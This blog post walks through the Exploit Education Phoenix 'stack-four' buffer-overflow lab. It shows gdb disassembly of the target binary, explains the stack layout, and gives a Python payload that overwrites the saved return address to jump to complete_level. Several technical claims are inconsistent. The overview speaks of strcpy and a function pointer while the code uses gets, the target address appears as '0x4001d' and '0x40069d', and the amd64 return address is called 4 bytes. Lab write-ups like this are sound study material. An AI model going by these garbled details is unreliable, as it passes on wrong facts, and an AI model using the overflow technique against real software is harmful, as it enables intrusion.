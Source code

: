 ```yaml
---
layout: post
title: Stack Four Writeup - Exploit Education Lab Exercise
categories: [security, binary-exploit, reverse-engineering, friday-gems]
tags: [security, binary-exploitation, friday-gems]
description: A comprehensive writeup that helps to understand Stack Four exercise stack-overflow vulnerability with learning resources.
---
```


### Previous Writeup: 

1. [Stack Zero Writeup - Exploit Education Lab Exercise](https://shivasurya.me/security/binary-exploit/reverse-engineering/friday-gems/2023/01/12/exploit-education-stack-zero-exercise-writeup.html)
2. [Stack One Writeup - Exploit Education Lab Exercise](https://shivasurya.me/security/binary-exploit/reverse-engineering/friday-gems/2023/01/20/exploit-education-stack-one-exercise-writeup.html)
3. [Stack Two Writeup - Exploit Education Lab Exercise](https://shivasurya.me/security/binary-exploit/reverse-engineering/friday-gems/2023/01/26/exploit-education-stack-two-exercise-writeup.html)
4. [Stack Three Writeup - Exploit Education Lab Exercise](https://shivasurya.me/security/binary-exploit/reverse-engineering/friday-gems/2023/01/27/exploit-education-stack-three-exercise-writeup.html)

If you're learning and writing binary exploits, I would strongly recommend you to take [Architecture 1001: x86-64 Assembly](https://p.ost2.fyi/courses/course-v1:OpenSecurityTraining2+Arch1001_x86-64_Asm+2021_v1/course/) course by `Xeno Kovah`. They cover a wide variety of learning assembly instructions which will be really helpful to understand the exploits.

If you haven't done setting-up your lab, feel free to check out my previous article on [Exploit.education lab setup](https://shivasurya.me/security/binary-exploit/reverse-engineering/friday-gems/2023/01/06/exploit-education-lab-setup.html)

### Quick Overview

Similar to Stack Two, Stack Four exercise motive is to smash the stack to modify other variables in the stack to a `hex value` and technically overwrite `function pointer` in the stack. Similar to `gets` in Stack Zero, `strcpy` function is unsafe that doesn't have bounds check, it accepts memory address to write but doesn't care about overwriting other declared function pointer in stack. If you take closer look at the struct which isn't dynamically being allocated by `malloc` function, so probably the struct which contains both `char buffer[64]` and `volatile int *fp` function pointer stays in main stackframe. This overwritten function pointer will be further used to invoke in later part of the program.

### Disassemble

Disassembling the code will get you overall idea behind the stack-four code, One can use `gdb ./stack-four` to start debugging it in runtime.

1. `gdb ./stack-four`
2. Type `disassemble main` to get the disassembled code (assembly)

```assembly
   0x000000000040066a <+0>:     push   rbp
   0x000000000040066b <+1>:     mov    rbp,rsp
   0x000000000040066e <+4>:     sub    rsp,0x10
   0x0000000000400672 <+8>:     mov    DWORD PTR [rbp-0x4],edi
   0x0000000000400675 <+11>:    mov    QWORD PTR [rbp-0x10],rsi
   0x0000000000400679 <+15>:    mov    edi,0x400750
   0x000000000040067e <+20>:    call   0x400480 <puts@plt>
   0x0000000000400683 <+25>:    mov    eax,0x0
   0x0000000000400688 <+30>:    call   0x400635 <start_level>
   0x000000000040068d <+35>:    mov    eax,0x0
   0x0000000000400692 <+40>:    leave
   0x0000000000400693 <+41>:    ret
```

`> disassemble start_level`

```assembly
   0x0000000000400635 <+0>:     push   rbp
   0x0000000000400636 <+1>:     mov    rbp,rsp
   0x0000000000400639 <+4>:     sub    rsp,0x50
   0x000000000040063d <+8>:     lea    rax,[rbp-0x50]
   0x0000000000400641 <+12>:    mov    rdi,rax
   0x0000000000400644 <+15>:    call   0x400470 <gets@plt>
   0x0000000000400649 <+20>:    mov    rax,QWORD PTR [rbp+0x8]
   0x000000000040064d <+24>:    mov    QWORD PTR [rbp-0x8],rax
   0x0000000000400651 <+28>:    mov    rax,QWORD PTR [rbp-0x8]
   0x0000000000400655 <+32>:    mov    rsi,rax
   0x0000000000400658 <+35>:    mov    edi,0x400733
   0x000000000040065d <+40>:    mov    eax,0x0
   0x0000000000400662 <+45>:    call   0x400460 <printf@plt>
   0x0000000000400667 <+50>:    nop
   0x0000000000400668 <+51>:    leave
   0x0000000000400669 <+52>:    ret
```

If you carefully check the source, you might miss `complete_level` in the above disassembled code. You can go ahead and type `disassemble complete_level` in the gdb prompt,

```assembly
   0x000000000040061d <+0>:     push   rbp
   0x000000000040061e <+1>:     mov    rbp,rsp
   0x0000000000400621 <+4>:     mov    edi,0x4006f0
   0x0000000000400626 <+9>:     call   0x400480 <puts@plt>
   0x000000000040062b <+14>:    mov    edi,0x0
   0x0000000000400630 <+19>:    call   0x400490 <exit@plt>
```

Before taking a look at the code, if you disassembled the stack-four using gdb to view the assembly instruction, you may notice the puts, start_level, exit and gets function calls with parameters. So basically when you hit `r` in gdb without breakpoint,

1. Greet with `Welcome to phoenix/stack-four, brought to you by https://exploit.education` message via Puts (aka printf) method
3. Invokes `start_level` function `0x400635`
4. Accepts user input via `gets` method with `buffer` memory address.
5. Invoke `__builtin_return_address` method to get the `rip` register address which is already stored in stack
6. Print the return address via `puts` method.

### Primary Goal

The primary goal of this exercise is to make you familiar to overwrite return address in the stack with your own return address to a function and therefore redirecting the program flow to achieve code execution. In the ideal exploit world, you may overwrite the return address and redirect to `system` function to achieve remote code execution. In this exercise, you might want to overwrite the return address stored in the `start_level` stackframe and redirect the program flow to `complete_level`. The return address is used by `$rip` register aka instruction pointer which is responsible for loading next instruction of the program.

### Memory Allocation

As you see that the `buffer` variable isn't dynamically allocated, they are allocated in the stack frame same as `main` function gets executes. The main function starts executing my pushing `$rbp` to stack at `0x7fffffffe660` and then `rsp` to `$rbp-0x10` (`0x7fffffffe650`) as expected the stack grows from top (higher memory address) to bottom (lower memory address). After series of steps, `start_level` is invoked pushing $rbp again to `0x7fffffffe640` and $rsp to `0x7fffffffe5f0`.

![Stack Memory Layout from $rbp till $rsp](/assets/media/exploit-education-phoenix-stack-four-rbp.jpg)

You can see that `buffer` (64 bytes) gets written at `$rbp-0x50` i.e `0x7fffffffe5f0` and `$rip` register (4 bytes) at `rbp-0x10` i.e `0x7fffffffe650`. Now that you got the overall idea of the memory layout of the stack, you can now go ahead blow up the stack to overwrite `$rip` aka return address stored in stack. If you play around with these memory layout behaviour, you can note that the char `buffer` variable writes from `$rbp-0x50` towards `$rbp-0x08` i.e `0x7fffffffe648`.

### Exploit

As previously discussed `buffer` and `$rip` are allocated nearby each other in stack. So, if your input of 64 characters (example: 64 * 'A') wouldn't overrite the $rip register (instruction pointer), but if you do the same with 88 characters + 4 character (actual $rip), you have succesfully overwritten `$rip` register. However, our challenge is to overwrite return address ($rip) with `complete_level` function memory address. So, How do I get the `complete_level` function loaded memory address? Simple, use gdb disassemble `disassemble complete_level` command and note down the starting `$rbp` address aka `0x4001d` (ignore the padding zeros).

If you try generating the payload simply  `(A * 88) + '\x40\x06\x1d'`, this would represent in the memory as `88 'A's & 0x40069d` 😵. Remember [Little Endianness](https://en.wikipedia.org/wiki/Endianness) ?, Yes Intel or AT&T syntax follows Little Endianness, so the representation should be in reverse order as `'A'*88 + '\x1d\x06\x40'`.

![Stack Memory Layout](/assets/media/exploit-education-phoenix-stack-four-gdb.jpg)

### Result

`> r <<< $(python -c "print('A'*88 + '\x1d\x06\x40')")` in gdb prompt.

```assembly
(gdb) r <<< $(python -c "print('A'*88 + '\x1d\x06\x40')")
Starting program: /opt/phoenix/amd64/stack-four <<< $(python -c "print('A'*88 + '\x1d\x06\x40')")
Welcome to phoenix/stack-four, brought to you by https://exploit.education
and will be returning to 0x40061d
Congratulations, you've finished phoenix/stack-four :-) Well done!
[Inferior 1 (process 317) exited normally]
```

There you go! 🎉 You've officially `pwned` the `binary` and possibly you could control the program flow and may 
eventually perform remote code execution in the system. 🪲

![buffer-overflow-meme](/assets/media/buffer-overflow-meme-2.jfif)

### Source and Reference:

1. Stack Four Exercise: [Exploit Education](https://exploit.education/phoenix/stack-four/)
2. [Architecture 1001: x86-64 Assembly](https://p.ost2.fyi/courses/course-v1:OpenSecurityTraining2+Arch1001_x86-64_Asm+2021_v1/course/)

### Closing Note:

I hope this post is helpful for vulnerability researcher 🔍 & code reviewers, For bugs,hugs & discussion, DM in [Twitter](https://twitter.com/sshivasurya). Opinions are my own and not the views of my employer.
